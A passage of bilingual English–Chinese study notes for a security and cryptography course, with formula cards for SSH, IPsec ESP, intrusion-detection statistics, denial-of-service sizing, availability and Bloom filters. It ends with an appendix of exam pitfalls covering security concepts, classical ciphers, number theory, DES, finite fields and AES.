- \(K\), \(H\): as above. \(\text{session\_id}\): the first \(H\) of the connection.\(K\)、\(H\)：同上。\(\text{session\_id}\)：连接的第一个 \(H\)。
- \(X\): one letter for each key. A, B: initial IVs client to server, server to client. C, D: encryption keys, same directions. E, F: integrity keys, same directions.\(X\)：每个密钥对应一个字母。A、B：客户端到服务器、服务器到客户端的初始 IV。C、D：加密密钥，方向相同。E、F：完整性密钥，方向相同。
Chapter 20 IP Security (IPsec) and VPNs
\[P=\bigl(-(L+2)\bigr)\bmod B\]
- \(P\): padding length in bytes, between 0 and \(B-1\)\(P\)：填充长度（字节），取值在 0 到 \(B-1\) 之间
- \(L\): length of the payload data in bytes, for example 100\(L\)：载荷数据的长度（字节），例如 100
- \(B\): cipher block size in bytes, for example 16 for AES, or 4 if only 32-bit alignment is needed\(B\)：密码块大小（字节），例如 AES 为 16，若只需 32 位对齐则为 4
- The 2 in the formula is the two bytes of Pad Length and Next Header公式中的 2 是填充长度和下一首部这两个字节
\[E=8+I+L+P+2+C\]
- \(E\): length of the ESP packet in bytes, without the outer IP header\(E\)：ESP 数据包的长度（字节），不含外层 IP 首部
- \(I\): length of the IV in bytes, for example 16 for AES-CBC\(I\)：IV 的长度（字节），例如 AES-CBC 为 16
- \(L\) and \(P\): as in the padding card\(L\) 和 \(P\)：与填充卡片中相同
- \(C\): length of the ICV in bytes, for example 12 for HMAC-SHA-1-96\(C\)：ICV 的长度（字节），例如 HMAC-SHA-1-96 为 12
- The 8 is the SPI (4 bytes) and the Sequence Number (4 bytes). The 2 is Pad Length and Next Header. Add 20 bytes of IPv4 header for the packet on the wire.公式中的 8 是 SPI（4 字节）和序号（4 字节）。2 是填充长度和下一首部。线路上的数据包还要加上 20 字节的 IPv4 首部。
\[[\,N-W+1,\;N\,]\]
- \(N\): the right edge of the window, the highest sequence number of a valid packet received so far\(N\)：窗口的右边界，即迄今为止收到的有效数据包中的最高序号
- \(W\): the window size, the number of sequence numbers kept, default 64\(W\)：窗口大小，即保留的序号个数，默认为 64
- The window covers every number from \(N-W+1\) to \(N\). Each slot is marked once its authenticated packet has arrived.窗口覆盖从 \(N-W+1\) 到 \(N\) 的每个序号。每个位置在其经认证的数据包到达后被标记。
Chapter 22 Intrusion Detection, Snort and Honeypots
\[\text{DR}=\frac{TP}{TP+FN}\qquad \text{FAR}=\frac{FP}{FP+TN}\]
- \(\text{DR}\): detection rate, the fraction of real intrusions that raise an alarm (true-positive rate)\(\text{DR}\)：检测率，即真实入侵中触发警报的比例（真阳性率）
- \(\text{FAR}\): false alarm rate, the fraction of normal events that wrongly raise an alarm\(\text{FAR}\)：误报率，即正常事件中错误触发警报的比例
- \(TP\): number of true positives; \(FN\): number of false negatives\(TP\)：真阳性的数量；\(FN\)：假阴性的数量
- \(FP\): number of false positives; \(TN\): number of true negatives\(FP\)：假阳性的数量；\(TN\)：真阴性的数量
- A good IDS has high DR and low FAR. Moving the threshold trades one against the other.一个好的 IDS 应具有高检测率和低误报率。调整阈值会在两者之间进行权衡。
\[P(I\mid A)=\frac{\text{DR}\cdot p}{\text{DR}\cdot p+\text{FAR}\cdot(1-p)}\]
- \(P(I\mid A)\): probability that an event is an intrusion given that the IDS raised an alarm\(P(I\mid A)\)：在 IDS 发出警报的前提下，某事件确实是入侵的概率
- \(I\): the event is an intrusion; \(A\): the IDS raises an alarm\(I\)：该事件是入侵；\(A\)：IDS 发出警报
- \(p\): base rate, the fraction of all events that are intrusions, for example 0.001\(p\)：基率，即所有事件中属于入侵的比例，例如 0.001
- \(\text{DR}\) and \(\text{FAR}\) as in "Detection rate and false alarm rate"; \(1-p\) is the fraction of normal events\(\text{DR}\) 和 \(\text{FAR}\) 的含义同"检测率与误报率"；\(1-p\) 是正常事件的比例
- Numerator: share of events that are true alarms. Denominator: share of events that are alarms of any kind.分子：真实警报占全部事件的比例。分母：任何类型警报占全部事件的比例。
\[\text{FAR}\le\text{DR}\cdot\frac{p}{1-p}\cdot\frac{1-\pi}{\pi}\]
- \(\text{FAR}\): highest false alarm rate that still gives the required share of real alarms\(\text{FAR}\)：仍能满足要求的真实警报比例时所允许的最高误报率
- \(\pi\): required share of alarms that are real, for example 0.5 for "half of the alarms are real"\(\pi\)：要求的真实警报比例，例如 0.5 表示"一半警报是真实的"
- \(\text{DR}\) and \(p\) as in "Probability that an alarm is real (Bayes)"\(\text{DR}\) 和 \(p\) 的含义同"警报为真的概率（贝叶斯）"
- For \(\pi=\tfrac12\) the last factor is 1, so FAR is about DR·p, as small as the base rate.对于 \(\pi=\tfrac12\)，最后一个因子为 1，因此 FAR 约等于 DR·p，与基率一样小。
Chapter 23 Denial-of-Service Attacks and Botnets
\[r=\frac{C}{8s}\]
- \(r\): packets per second that fill the link, for example 125 packets/s\(r\)：填满链路的每秒包数，例如 125 包/秒
- \(C\): capacity of the link in bit/s, for example 0.5 Mbit/s \(=500{,}000\) bit/s\(C\)：链路容量，单位为 bit/s，例如 0.5 Mbit/s \(=500{,}000\) bit/s
- \(s\): size of one packet in bytes, for example 500 bytes. The factor 8 turns bytes into bits\(s\)：一个包的字节数，例如 500 字节。系数 8 把字节换算成比特
- Framing overhead is ignored忽略帧封装开销
\[r=\frac{N}{L}\qquad B=8\,s\,r\]
- \(r\): SYNs per second that the attacker must send, for example 1.4 SYN/s\(r\)：攻击者必须发送的每秒 SYN 数，例如 1.4 SYN/s
- \(N\): number of entries in the table, for example 256\(N\)：表中的表项数，例如 256
- \(L\): lifetime of one entry in seconds, from its creation until the server deletes it\(L\)：一个表项的生存期（秒），从它被创建直到服务器将其删除
- \(B\): attack bandwidth in bit/s\(B\)：攻击所用的带宽（bit/s）
- \(s\): size of one SYN in bytes, 40 for a bare TCP/IP header. The factor 8 turns bytes into bits\(s\)：一个 SYN 的字节数，裸 TCP/IP 首部为 40 字节。系数 8 把字节换算成比特
\[n=\left\lceil\frac{C}{c}\right\rceil\]
- \(n\): number of zombies needed, for example 782\(n\)：所需的僵尸主机数，例如 782
- \(C\): capacity of the target's link in bit/s, for example 100 Mbit/s\(C\)：目标链路的容量（bit/s），例如 100 Mbit/s
- \(c\): uplink rate of one zombie in bit/s, for example 128 Kbit/s\(c\)：一台僵尸主机的上行速率（bit/s），例如 128 Kbit/s
- The brackets round up to the next whole number方括号内的数要向上取整到下一个整数
\[A=\frac{\text{bytes arriving at the target}}{\text{bytes sent by the attacker}}\]
- \(A\): amplification factor, the number of bytes at the target per byte sent, for example 150\(A\)：放大因子，即目标处的字节数与发送字节数之比，例如 150
- Broadcast: \(A=h\,s_{\text{reply}}/s_{\text{request}}\), where \(h\) is the number of hosts that reply, for example 150广播：\(A=h\,s_{\text{reply}}/s_{\text{request}}\)，其中 \(h\) 是回复的主机数，例如 150
- \(s_{\text{reply}}\): size of one reply in bytes; \(s_{\text{request}}\): size of one request in bytes\(s_{\text{reply}}\)：一个回复的字节数；\(s_{\text{request}}\)：一个请求的字节数
- DNS: \(A=s_{\text{response}}/s_{\text{request}}\), where \(s_{\text{response}}\) is the size of the DNS answer in bytesDNS：\(A=s_{\text{response}}/s_{\text{request}}\)，其中 \(s_{\text{response}}\) 是 DNS 应答的字节数
- Flood bandwidth \(=A\times\) the attacker's request bandwidth洪泛带宽 \(=A\times\) 攻击者的请求带宽
Chapter 24 Cloud, IoT and SCADA Security
\[D=(1-A)\,T\]
- \(D\): expected downtime in the period, in minutes\(D\)：该周期内的预期停机时间，单位为分钟
- \(A\): availability, the fraction of time the service is up, for example 0.9999\(A\)：可用性，即服务正常运行的时间比例，例如 0.9999
- \(T\): the period, for example one year of 525,600 min\(T\)：周期，例如一年，即 525,600 分钟
- Example: \(A=99.99\%\) over a year gives \(D=0.0001\times525{,}600=52.56\) min.例：\(A=99.99\%\) 在一年内得到 \(D=0.0001\times525{,}600=52.56\) 分钟。
\[A_{\text{series}}=\prod_i A_i\qquad A_{\text{parallel}}=1-\prod_i(1-A_i)\]
- \(A_{\text{series}}\): availability when every component is needed\(A_{\text{series}}\)：所有组件都必需时的可用性
- \(A_{\text{parallel}}\): availability when one working replica suffices\(A_{\text{parallel}}\)：只要一个正常工作的副本即可时的可用性
- \(A_i\): availability of component number \(i\), for example 0.999\(A_i\)：第 \(i\) 个组件的可用性，例如 0.999
- \(\prod_i\): the product over all components\(\prod_i\)：所有组件的乘积
- Condition: failures are independent. Shared infrastructure may break this.条件：各组件的故障相互独立。共享基础设施可能破坏这一条件。
\[p\approx\left(1-e^{-kn/m}\right)^{k}\]
- \(p\): probability that a fresh message is wrongly reported as already seen, for example 0.0094\(p\)：一条新消息被错误地报告为“已见过”的概率，例如 0.0094
- \(m\): number of bits in the array, for example 1000\(m\)：数组中的比特数，例如 1000
- \(k\): number of hash functions, for example 5\(k\)：哈希函数的个数，例如 5
- \(n\): number of elements inserted so far, for example 100\(n\)：到目前为止插入的元素个数，例如 100
- \(e\): the base of the natural logarithm, about 2.718\(e\)：自然对数的底，约为 2.718
- The best \(k\) is about \((m/n)\ln 2\).最优的 \(k\) 约为 \((m/n)\ln 2\)。
AppendixTraps易错点汇总
正文里每一节的 Traps 框按章汇总，标题是所在的小节，适合考前最后过一遍。
Chapter 1 Security Concepts: Threats, Attacks and Assets
- The system rating is not an average. It is the maximum per objective.系统评级不是平均值，而是每个目标的最大值。
- Privacy is part of confidentiality (people control their own data). System integrity is not data integrity: it is about the system doing its job unimpaired.隐私属于机密性的一部分（人们控制自己的数据）。系统完整性不同于数据完整性：它指系统能够完好无损地履行其功能。
- Rate each objective separately. A system can be low for confidentiality and high for availability.每个目标分别评级。一个系统的机密性可以是低，而可用性却是高。
- How to say it in the exam: "Each data set is rated for confidentiality, integrity and availability. The system takes the highest rating per objective."考试中可以这样写："每个数据集都按机密性、完整性和可用性评级。系统对每个目标取最高评级。"
- Do not mix the terms. A vulnerability is a weakness, a threat is a potential harm, an attack is a threat carried out.不要混用这些术语。漏洞是弱点，威胁是潜在的危害，攻击是威胁的实际执行。
- A vulnerability alone is not a high risk. Risk needs a threat that can reach it and an asset that matters.只有漏洞本身不等于高风险。风险还需要一个能够触及它的威胁，以及一项重要的资产。
- Add the cost of the countermeasure to the remaining expected loss before comparing.比较之前，先把对策的成本与剩余期望损失相加。
- How to say it in the exam: "A threat agent exploits a vulnerability of an asset through an attack, producing a threat consequence. Countermeasures prevent, detect and recover, and the owner accepts the residual risk."考试中可以这样写："威胁主体通过攻击利用资产的漏洞，从而产生威胁后果。对策用于预防、检测和恢复，所有者接受剩余风险。"
- Replay starts with a passive capture but is an active attack, because the data are sent again.重放以被动截获开始，但它是主动攻击，因为数据被再次发送。
- Encrypting the contents does not defeat traffic analysis. Traffic padding is needed as well (Section 1.4).加密内容并不能防御流量分析，还需要流量填充（见第 1.4 节）。
- One consequence can hit two objectives: disruption hits availability through incapacitation and obstruction, and system integrity through corruption. Name the one that the scenario shows.一种后果可能同时影响两个目标：中断通过使系统失效和阻塞来影响可用性，通过破坏来影响系统完整性。请指出情景中体现的是哪一个。
- How to say it in the exam: "Passive attacks change no data, so they are hard to detect and are prevented, for example by encryption. Active attacks cannot be fully prevented, so they are detected and recovered from."考试中可以这样写："被动攻击不改变任何数据，所以很难检测，应当预防，例如用加密。主动攻击无法完全预防，所以要检测并从中恢复。"
- Encryption alone gives confidentiality only. Integrity, authentication, nonrepudiation and availability need other mechanisms.只用加密只能提供机密性。完整性、认证、不可否认性和可用性都需要其他机制。
- Data origin authentication does not stop duplication or modification. Peer entity authentication belongs to a connection.数据源认证不能阻止数据被复制或篡改。对等实体认证属于某个连接。
- How to say it in the exam: "A service says what is provided, and one or more mechanisms implement it. A digital signature supports both data origin authentication and nonrepudiation."考试中可以这样写："服务说明提供什么，一种或多种机制负责实现它。数字签名同时支持数据源认证和不可否认性。"
- Separation of privilege needs several conditions or split privileges. Least privilege limits what each subject may do. Do not mix them.权限分离需要多个条件，或把权限拆分开。最小权限限制每个主体能做什么。两者不要混淆。
- Isolation separates things from each other. Layering stacks several protections around the same asset (defence in depth).隔离是把事物彼此分开。分层是在同一资产周围叠加多重保护（纵深防御）。
- Fail-safe defaults concerns the default and the failure mode, not the strength of a password.失败-安全默认关注的是默认设置和失败时的行为，而不是口令的强度。
- How to say it in the exam: "Name the principle, restate it, and say what goes wrong when it is violated."考试中可以这样写："说出原则名称，重新表述它，并说明违反它时会出现什么问题。"
- AND adds costs, OR takes the minimum. Hardening one leaf only moves the attacker to the next cheapest path.与节点把成本相加，或节点取最小值。加固某一个叶节点，只会把攻击者引向下一条最便宜的路径。
- For probabilities, AND multiplies and OR is 1 minus the product of the failure probabilities. Do not add them.对于概率，与节点相乘，或节点为 1 减去各失败概率的乘积。不要把它们相加。
- An attack surface says where the attacker gets in. An attack tree says how he reaches a goal.攻击面说明攻击者从哪里进入。攻击树说明攻击者如何达到目标。
Chapter 2 Symmetric Cipher Model and Classical Ciphers
- The opponent is assumed to know the algorithm, the ciphertext, \(E\) and \(D\). Only \(K\) is secret.假定对手知道算法、密文、\(E\) 和 \(D\)。只有 \(K\) 是保密的。
- A published algorithm is not insecure. DES and AES are published and the most intensively studied.公开的算法并不等于不安全。DES 和 AES 都是公开的，也是被研究得最为深入的算法。
- Block size and key size are different numbers: DES has a 64-bit block and a 56-bit key.分组大小和密钥长度是两个不同的数：DES 的分组为 64 比特，密钥为 56 比特。
- How to say it in the exam: "A symmetric cipher needs a strong algorithm and a secret key that is distributed and stored securely; only the key is secret."考试中可以这样写："对称密码需要一个强算法，以及一个安全分发和存储的秘密密钥；只有密钥需要保密。"
- Brute force tries half of the keys on average, \(N/2\), not all \(N\).穷举攻击平均尝试一半的密钥，即 \(N/2\)，而不是全部 \(N\)。
- A long key gives computational security only. It is not unconditional security.长密钥只能提供计算安全，而不是无条件安全。
- Ciphertext only is the weakest attack for the analyst. Known plaintext, chosen plaintext and chosen ciphertext give more information.唯密文攻击对分析者而言是最弱的攻击。已知明文、选择明文和选择密文攻击能提供更多信息。
- How to say it in the exam: "A scheme is computationally secure if the cost of breaking it exceeds the value of the data or the time needed exceeds its useful lifetime; only the one-time pad is unconditionally secure."考试中可以这样写：“若破解一个方案的代价超过数据的价值，或所需时间超过数据的有效期，则该方案在计算上是安全的；只有一次一密是无条件安全的。”
- A huge key space does not make a cipher secure: \(26!\) keys still fall to frequency analysis.庞大的密钥空间并不能使密码变得安全：\(26!\) 个密钥仍会被频率分析攻破。
- Caesar has 25 keys (shift 0 is no encryption). Affine has 312 keys, not 26 times 26.凯撒密码有 25 个密钥（位移 0 不做加密）。仿射密码有 312 个密钥，而不是 26 乘以 26。
- In the affine cipher decrypt with \(a^{-1}(C-b)\). Do not use \(C-b\) divided by \(a\) in ordinary arithmetic.在仿射密码中，解密时用 \(a^{-1}(C-b)\)。不要用普通算术中 \(C-b\) 除以 \(a\) 的办法来做。
- How to say it in the exam: "A monoalphabetic cipher preserves the plaintext's letter frequencies, so the most frequent ciphertext letters stand for e, t and a; digrams such as th and trigrams such as the then fix the remaining letters."考试中可以这样写：“单表代换密码保留明文的字母频率，因此密文中最频繁出现的字母分别对应 e、t 和 a；双字母组（如 th）和三字母组（如 the）随后可以确定其余字母。”
- Write the block as a row vector on the left: \(C=PK\), not \(KP\).分组要写成左乘的行向量形式：\(C=PK\)，而不是 \(KP\)。
- Reduce every entry modulo 26 and add 26 to negative numbers. Check that \(\gcd(\det K,26)=1\) before using a key.每个元素都模 26 取余，负数要加上 26。使用密钥之前，先检查 \(\gcd(\det K,26)=1\)。
- Playfair: equal letters in a pair need a filler, and a rectangle pair swaps columns, not rows.Playfair：字母对中两个字母相同时需要插入填充字母；矩形字母对交换的是列，而不是行。
- How to say it in the exam: "Hill hides single-letter frequencies but is linear, so \(m\) known plaintext blocks give \(K=X^{-1}Y\)."考试中可以这样写：“Hill 密码隐藏了单字母频率，但它是线性的，因此 \(m\) 个已知明文分组就能得到 \(K=X^{-1}Y\)。”
- The Kasiski distances give the key length through their gcd. The key length divides every distance. It is not equal to one distance.卡西斯基距离通过它们的最大公约数给出密钥长度。密钥长度整除每一个距离，但它并不等于某一个距离。
- Autokey avoids a repeating key but is not secure: key and plaintext share English statistics.自动密钥（Autokey）避免了密钥重复，但并不安全：密钥和明文都带有英语的统计特性。
- The one-time pad needs three conditions together: truly random, as long as the message, used once. Reuse leaks \(p_1\oplus p_2\).一次一密需要同时满足三个条件：真正随机、与消息等长、只用一次。重复使用会泄露 \(p_1\oplus p_2\)。
- How to say it in the exam: "Vigenère is broken by finding the key length with the Kasiski examination and then solving each column as a Caesar cipher by frequency analysis."考试中可以这样写：“维吉尼亚密码可以先用卡西斯基法求出密钥长度，再用频率分析把每一列当作凯撒密码破解。”
- Do not confuse the column number in the key with the column position: the key says in which order the columns are read.不要把密钥中的列号与列的位置混淆：密钥指明的是按什么顺序读取各列。
- A transposition keeps the letter frequencies of the language. A substitution does not.置换保持语言中的字母频率，代换则不然。
- Two independent columnar keys give \(5040^2=25{,}401{,}600\) keys for 7 columns, still too few against a computer search.两个相互独立的列置换密钥，在 7 列时共有 \(5040^2=25{,}401{,}600\) 个密钥，面对计算机搜索仍然太少。
Chapter 3 Number Theory for Cryptography
- The remainder of a negative number is still between 0 and \(n-1\): \(-11 \bmod 7=3\).负数的余数仍然介于 0 和 \(n-1\) 之间：\(-11 \bmod 7=3\)。
- \(\equiv\) is a statement and \(\bmod\) is an operation. Write \(73\equiv4 \pmod{23}\) or \(73 \bmod 23=4\).\(\equiv\) 是一个陈述，\(\bmod\) 是一个运算。应写成 \(73\equiv4 \pmod{23}\) 或 \(73 \bmod 23=4\)。
- Cancel a factor \(a\) only if \(\gcd(a,n)=1\). Example: \(4a\equiv4b \pmod{12}\) gives only \(a\equiv b \pmod 3\).只有当 \(\gcd(a,n)=1\) 时才能约去因子 \(a\)。例如：\(4a\equiv4b \pmod{12}\) 只能得到 \(a\equiv b \pmod 3\)。
- A matching check modulo 9 does not prove that a product is right. It only catches some errors.模 9 的校验并不能证明乘积是对的，它只能发现部分错误。
- Write every line \(r_{i-2}=q_ir_{i-1}+r_i\). The trace earns the marks, and the gcd is the last nonzero remainder, not the last remainder.每一行都要写出 \(r_{i-2}=q_ir_{i-1}+r_i\)。这份演算过程本身就是得分的依据；gcd 是最后一个非零余数，而不是最后一个余数。
- Before computing an inverse say "\(\gcd=1\), so it exists". Reduce \(x\) into \(0,\dots,n-1\) and check \(a\,a^{-1}\equiv1\).在求逆元之前，先说“\(\gcd=1\)，所以它存在”。把 \(x\) 化简到 \(0,\dots,n-1\) 中，并检验 \(a\,a^{-1}\equiv1\)。
- If \(\gcd(a,n)>1\), write "no inverse exists".若 \(\gcd(a,n)>1\)，则写“不存在逆元”。
- For \(ax\equiv b\), first test whether \(\gcd(a,n)\) divides \(b\).对于 \(ax\equiv b\)，先检验 \(\gcd(a,n)\) 是否整除 \(b\)。
- Reduce exponents modulo \(\phi(n)\) (modulo \(p-1\) for a prime), never modulo \(n\).指数应模 \(\phi(n)\) 约化（若模数为素数，则模 \(p-1\)），切勿模 \(n\)。
- Check \(\gcd(a,n)=1\) first: \(6^6\equiv0 \pmod 9\), not 1.先检验 \(\gcd(a,n)=1\)：\(6^6\equiv0 \pmod 9\)，而不是 1。
- \(\phi(pq)=(p-1)(q-1)\), not \(pq-1\). The formula needs two distinct primes.\(\phi(pq)=(p-1)(q-1)\)，而不是 \(pq-1\)。该公式需要两个不同的素数。
- How to say it in the exam: "Fermat's theorem is the special case of Euler's theorem for a prime modulus, because \(\phi(p)=p-1\)."考试中可以这样写：“费马定理是欧拉定理在模数为素数时的特例，因为 \(\phi(p)=p-1\)。”
- Write \(k\) and \(q\) first. Then write the chain \(a^q,a^{2q},\dots\) modulo \(n\), each entry the square of the previous one.先写出 \(k\) 和 \(q\)。然后写出模 \(n\) 的序列 \(a^q,a^{2q},\dots\)，其中每一项都是前一项的平方。
- "Composite" is a proof. "Inconclusive" is only evidence.“合数”是证明；“不确定”只是证据。
- How to say it in the exam: "Miller–Rabin has one-sided error: it never declares a prime composite, and it declares a composite number prime with probability at most \(4^{-t}\)."考试中可以这样写：Miller–Rabin 具有单侧错误：它绝不会把素数判为合数，而把合数判为素数的概率至多为 \(4^{-t}\)。
- Check that the moduli are pairwise coprime before using the formula.使用公式之前，先检验模数是否两两互素。
- \(M_i^{-1}\) is the inverse modulo \(m_i\), not modulo \(M\).\(M_i^{-1}\) 是模 \(m_i\) 的逆元，而不是模 \(M\) 的逆元。
- Always verify the answer modulo each \(m_i\), then reduce it into \(0,\dots,M-1\).总要先检验答案模每个 \(m_i\) 是否正确，然后再把它化简到 \(0,\dots,M-1\) 中。
- Do the componentwise product modulo each \(m_i\), and only then convert back.先在每个 \(m_i\) 下做分量乘积（取模），然后才换回去。
- A primitive root must have order exactly \(\phi(n)\). Justify it with the list of powers or the prime-divisor test.本原根的阶必须恰好是 \(\phi(n)\)。用幂次列表或素因子检验来证明。
- Logarithm arithmetic is modulo \(p-1\), not modulo \(p\).对数运算是模 \(p-1\) 的，而不是模 \(p\) 的。
- Say both halves: exponentiation is easy, the discrete logarithm is hard.两方面都要说清：指数运算容易，而离散对数困难。
Chapter 4 Block Ciphers and DES
- The key of the ideal cipher is \(n\cdot2^n\) bits, not \(2^n\) bits and not \(n\) bits.理想密码的密钥是 \(n\cdot2^n\) 位，而不是 \(2^n\) 位，也不是 \(n\) 位。
- \((2^n)!\) counts the mappings. A \(k\)-bit key reaches only \(2^k\) of them.\((2^n)!\) 是映射的个数。\(k\) 位的密钥只能覆盖其中的 \(2^k\) 种。
- A permutation alone is not diffusion, and a linear step alone is not confusion.只有置换不是扩散，只有线性步骤也不是混淆。
- How to say it in the exam: "Diffusion hides plaintext statistics by spreading each plaintext bit over many ciphertext bits; confusion hides the key through nonlinear substitution."考试中可以这样写：“扩散通过把每个明文位分散到许多密文位上来隐藏明文统计特性；混淆通过非线性代换来隐藏密钥。”
- The ciphertext is \(RE_n\Vert LE_n\), not \(LE_n\Vert RE_n\).密文应为 \(RE_n\Vert LE_n\)，而不是 \(LE_n\Vert RE_n\)。
- Decryption uses the same network, with the ciphertext as input and the subkeys in reverse order.解密使用同样的网络，以密文为输入，子密钥逆序使用。
- \(F\) need not be invertible. The proof only needs \((A\oplus B)\oplus B=A\).\(F\) 不必可逆。证明只需要 \((A\oplus B)\oplus B=A\)。
- How to say it in the exam: "By induction, \(LD_i\Vert RD_i=RE_{n-i}\Vert LE_{n-i}\), because \([LE\oplus F]\oplus F=LE\)."考试中可以这样写：“由归纳法，\(LD_i\Vert RD_i=RE_{n-i}\Vert LE_{n-i}\)，因为 \([LE\oplus F]\oplus F=LE\)。”
- The effective key is 56 bits, not 64. The block is 64 bits and the subkey 48 bits.有效密钥为 56 位，而不是 64 位。分组为 64 位，子密钥为 48 位。
- The S-box row uses the outer bits \(b_1b_6\) and the column the inner bits \(b_2b_3b_4b_5\). Do not read the six bits as one number.S 盒的行由外层位 \(b_1b_6\) 决定，列由内层位 \(b_2b_3b_4b_5\) 决定。不要把这六位当成一个数来读。
- Only the S-boxes are nonlinear. IP, \(\mathrm{IP}^{-1}\), E, P and PC-1 and PC-2 are plain bit permutations or selections.只有 S 盒是非线性的。IP、\(\mathrm{IP}^{-1}\)、E、P 以及 PC-1 和 PC-2 都只是普通的位置换或选取。
- How to say it in the exam: "DES is a 16-round Feistel cipher; F expands, adds the subkey, applies eight S-boxes and permutes."考试中可以这样写：“DES 是 16 轮的 Feistel 密码；F 先扩展，再与子密钥异或，然后经过八个 S 盒，最后做置换。”
- The ideal is about 32 of 64 bits, not 64 and not 1.理想值约为 64 位中的 32 位，而不是 64 位，也不是 1 位。
- After round 1 only a few bits differ. That is normal and no flaw.第 1 轮之后只有少数几位不同。这是正常的，不是缺陷。
- Check the Feistel relation on a trace: every \(L_i\) equals the previous \(R_{i-1}\).在演算过程中检查 Feistel 关系：每个 \(L_i\) 都等于前一个 \(R_{i-1}\)。
- The average effort is half the key space, \(2^{k-1}\), not \(2^k\).平均工作量是密钥空间的一半，即 \(2^{k-1}\)，而不是 \(2^k\)。
- State the assumed rate \(r\) and convert seconds to years (divide by \(3.16\times10^{7}\)).写明假设的速率 \(r\)，并把秒换算成年（除以 \(3.16\times10^{7}\)）。
- Doubling the speed saves one key bit only; one extra key bit doubles the time.把速度翻倍只相当于省掉一个密钥位；而多一个密钥位，时间就翻倍。
- How to say it in the exam: "DES has two concerns: the 56-bit key, which brute force breaks in hours, and the unpublished S-box design, for which no fatal weakness is known."考试中可以这样写：“DES 有两个问题：56 位密钥，穷举几小时即可破解；以及 S 盒的设计未公开，但至今没有发现致命弱点。”
Chapter 5 Finite Fields
- Name the strongest structure, and name the axiom that fails for the next one.说出最强的结构，并指出下一级结构中不成立的公理。
- The nonzero integers mod 3 form a group under multiplication, but the whole set \(\mathbb Z_3\) does not, because \(0\) has no inverse.模 3 的非零整数在乘法下构成群，但整个集合 \(\mathbb Z_3\) 不构成群，因为 \(0\) 没有逆元。
- A ring needs no multiplicative identity and no commutativity. A field needs both, and an inverse for every nonzero element.环不要求乘法单位元，也不要求交换律。域两者都需要，并且每个非零元都要有逆元。
- How to say it in the exam: "A field is a commutative ring with identity, without zero divisors, in which every nonzero element has a multiplicative inverse."考试中可以这样写：“域是没有零因子的带单位元交换环，其中每个非零元都有乘法逆元。”
- \(\mathbb Z_n\) is a field iff \(n\) is prime. An element \(b\) has an inverse mod \(n\) iff \(\gcd(b,n)=1\).\(\mathbb Z_n\) 是域，当且仅当 \(n\) 为素数。元素 \(b\) 在模 \(n\) 下有逆元，当且仅当 \(\gcd(b,n)=1\)。
- \(\mathrm{GF}(2^8)\) is not \(\mathbb Z_{256}\). Finite fields exist only for orders \(p^n\), and the field of order \(256\) has a different structure (Section 5.4).\(\mathrm{GF}(2^8)\) 不是 \(\mathbb Z_{256}\)。有限域只存在于阶为 \(p^n\) 的情形，而阶为 \(256\) 的域具有不同的结构（见第 5.4 节）。
- Negative \(y_i\): add the modulus. In the example, \(-339\) and \(355\) are not the same row, so take the last row only.若 \(y_i\) 为负，则加上模数。在本例中，\(-339\) 和 \(355\) 不在同一行，因此只取最后一行。
- How to say it in the exam: "GF(p) is the integers mod p. Every nonzero element is coprime to p, so it has an inverse, which the extended Euclidean algorithm computes."考试中可以这样写：“GF(p) 就是模 p 的整数。每个非零元都与 p 互素，因此它有逆元，扩展欧几里得算法可以求出该逆元。”
- Say first which coefficient set is used. It decides whether division exists and how coefficients are reduced.先说明使用哪一个系数集合。它决定了除法是否存在，以及系数如何化简。
- Over \(\mathrm{GF}(2)\) there are no signs: \(-x=x\) and \(x+x=0\).在 \(\mathrm{GF}(2)\) 上没有正负号：\(-x=x\) 与 \(x+x=0\) 相同。
- Reduce every coefficient mod \(p\) after multiplying: in \(\mathbb Z_{11}\), \(40x^4\) becomes \(7x^4\).相乘之后，把每个系数按模 \(p\) 化简：在 \(\mathbb Z_{11}\) 中，\(40x^4\) 化为 \(7x^4\)。
- Degree 4 needs two tests, roots and the quadratic factor \(x^2+x+1\). Degree 2 or 3 needs only the roots.次数为 4 时需要两项检验：根，以及二次因式 \(x^2+x+1\)。次数为 2 或 3 时只需检验根。
- How to say it in the exam: "A polynomial of degree 2 or 3 is irreducible iff it has no root in the field."考试中可以这样写：“次数为 2 或 3 的多项式在域中不可约，当且仅当它在该域中没有根。”
- XOR with \(\{\mathrm{1B}\}\) only when the bit shifted out of the top is \(1\). Look again after every shift.只有当从最高位移出的位为 \(1\) 时，才与 \(\{\mathrm{1B}\}\) 做 XOR。每次移位后都要重新检查。
- Addition is XOR, not integer addition, and \(a\oplus a=0\).加法是 XOR，而不是整数加法，并且 \(a\oplus a=0\)。
- \(\mathrm{GF}(2^8)\) is not \(\mathbb Z_{256}\). State \(m(x)=x^8+x^4+x^3+x+1\) (\(\{11B\}\)) and say that it is irreducible. Any irreducible polynomial of degree \(8\) gives an isomorphic field.\(\mathrm{GF}(2^8)\) 不是 \(\mathbb Z_{256}\)。写出 \(m(x)=x^8+x^4+x^3+x+1\)（\(\{11B\}\)），并说明它不可约。任何次数为 \(8\) 的不可约多项式都给出同构的域。
- Check an inverse by multiplying: \(x^7\cdot(x^7+x+1)\equiv1\).用乘法验算逆元：\(x^7\cdot(x^7+x+1)\equiv1\)。
- How to say it in the exam: "Multiplication by \(x\) is a left shift; if the old top bit was 1, XOR 00011011."考试中可以这样写：“乘以 \(x\) 就是左移一位；若原来的最高位是 1，则与 00011011 做 XOR。”
Chapter 6 Advanced Encryption Standard (AES)
- The State is filled by columns: the first four input bytes are column 0, not row 0.状态数组按列填充：前四个输入字节构成第 0 列，而不是第 0 行。
- Round 0 is AddRoundKey only. The last round has no MixColumns. The number of round keys is \(N_r+1\), not \(N_r\).第 0 轮只有 AddRoundKey。最后一轮没有 MixColumns。轮密钥的个数是 \(N_r+1\)，而不是 \(N_r\)。
- Only AddRoundKey uses the key. SubBytes, ShiftRows and MixColumns are fixed public maps.只有 AddRoundKey 使用密钥。SubBytes、ShiftRows 和 MixColumns 都是固定的公开映射。
- How to say it in the exam: "AES alternates a keyed XOR (AddRoundKey) with keyless scrambling (SubBytes, ShiftRows, MixColumns); it is a substitution–permutation network, not a Feistel cipher."考试中可以这样写：“AES 交替进行带密钥的异或（AddRoundKey）与不带密钥的扰乱（SubBytes、ShiftRows、MixColumns）；它是代换–置换网络，而非 Feistel 密码。”
- After a left shift that loses a 1, XOR with {1B}, not with {11B}.左移后若丢失了一个 1，则与 {1B} 异或，而不是与 {11B} 异或。
- Addition is XOR, so {57} + {83} = {D4}. Do not add the numbers as integers.加法即 XOR，因此 {57} + {83} = {D4}。不要把它们当作整数相加。
- Doubling is a shift only if the leftmost bit was 0.只有最左位为 0 时，倍乘才是单纯的移位。
